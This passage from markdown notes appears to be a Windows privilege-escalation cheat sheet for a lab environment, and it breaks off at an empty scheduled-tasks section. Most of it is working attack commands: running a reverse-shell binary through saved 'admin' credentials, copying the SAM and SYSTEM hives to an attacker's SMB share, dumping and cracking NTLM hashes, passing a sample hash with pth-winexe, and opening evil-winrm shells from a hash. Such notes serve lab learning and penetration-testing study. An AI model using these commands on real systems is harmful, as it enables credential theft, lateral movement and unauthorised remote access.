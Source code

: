`cmdkey /list`

*Note that credentials for the "admin" user are saved. If they aren't, run the C:\PrivEsc\savecred.bat script to refresh the saved credentials.*

get shell:
`runas /savecred /user:admin C:\PrivEsc\reverse.exe`

## SAM (Security Accout Manager)
The SAM and SYSTEM files are located in the `C:\Windows\System32\config` directory.

Backups may exist in the C:\Windows\Repair or `C:\Windows\System32\config\RegBack` directories.

This is a file in windows just like shadow and passwd in linux which is used to authenticate users and also just like shadow and passwd we can crack it if we get hands on it.

```cmd
copy C:\Windows\Repair\SAM \\[IP]\kali\
copy C:\Windows\Repair\SYSTEM \\[IP]\kali
```
Resolve the SAM file:
```bash
# Python3 support
git clone https://github.com/ict/creddump7.git 
python3 pwndump.py SYSTEM SAM

# Secretdump
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL

```

Crack the hashes:
```bash
hashcat -m 1000 --force <hash> /rockyou.txt
```


## Pass The Hash
Command to directly pass the NTLM hash for authorization (wihtout quotes):
```bash
`pth-winexe -U 'admin%hash' //10.10.105.187 cmd.exe`

#Example
`pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.8.230 cmd.exe`
```

##  WinPEAS 
Check the .NET framework first before useing this and then user accordingly to version
Search for credentials in files.
```cmdlet
winPEASany.exe quiet cmd searchfast filesinfo
```

## Evil-WinRM
Get the shell from hash
```bash
gem install evil-winrm
evil-winrm -i 192.168.1.1 -u admin -p password
evil-winrm -i 192.168.1.1 -u admin -H 4F2DBC410D627862C8A0E7DCC7A41978
```
# Scheduled tasks
Check for scheduled tasks:
```cmdlet
# Use this one 
```